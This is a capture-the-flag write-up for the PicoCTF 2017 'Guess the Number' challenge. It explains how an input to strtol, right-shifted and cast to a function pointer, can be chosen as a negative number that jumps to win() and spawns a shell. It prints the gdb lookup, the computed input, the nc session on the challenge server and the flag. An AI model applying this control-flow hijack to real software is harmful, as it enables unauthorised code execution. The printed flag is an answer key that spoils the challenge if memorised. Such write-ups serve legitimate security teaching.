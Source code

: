 # PicoCTF 2017- Level 2 - Binary Exploitation 3

**Title:** Guess the Number  
**Category:** Binary Exploitation  
**Points:** 75  
**Description:**

>Just a simple number-guessing game. How hard could it be? [Binary](guess_num) [Source](guess_num.c). Connect on shell2017.picoctf.com:57641.  

**Hint:**

>What is the program doing with your input number?  
>strtol checks for overflow, but it does allow negative numbers...  

## Solution

Again, after looking at the source we can see that we need to call the `win()` function to get a shell:  
    $ gdb ./shells  
    (gdb) info address win  
    Symbol "win" is at 0x804852b in a file compiled without debugging.  

Looking at the source, we see that once we give a number to the program, it follows the following operation:  
```C  
printf("Enter your number: ");  
scanf("%32s", buf);  
val = strtol(buf, NULL, 10);  

printf("You entered %d. Let's see if it was right...\n", val);  

val >>= 4;  
((void (*)(void))val)();  
```

First, let's convert `0x804852b` to `1000000001001000010100101011`. We know that `strtol()` will check for overflow. After that `val >>= 4` will remove the last 4 bits of the number. So we should use:  
    10000000010010000101001010110000  
But now the number is too big to be entered.  As hinted, let's use a negative number:  
    python -c "print(-(0x100000000 - (0x804852b << 4)))"  
    -2142743888     

Now let's try to input `-2142743888`:

    $ nc shell2017.picoctf.com 57641  
    Welcome to the number guessing game!  
    I'm thinking of a number. Can you guess it?  
    Guess right and you get a shell!  
    Enter your number: -2142743888  
    You entered -2142743888. Let's see if it was right...  
    Congratulations! Have a shell:  
    /bin/sh: 0: can't access tty; job control turned off  
    $ ls -l  
    total 16  
    -r--r----- 1 hacksports guess-the-number_7   33 Mar 31  2017 flag.txt  
    -rwxr-sr-x 1 hacksports guess-the-number_7 5956 Mar 31  2017 guess_num  
    -rwxr-sr-x 1 hacksports guess-the-number_7  127 Apr  3  2017 xinetd_wrapper.sh  
    cat flag.txt  
    c2bda0bde530c16fff8a8530addb44f8  



The flag is `c2bda0bde530c16fff8a8530addb44f8`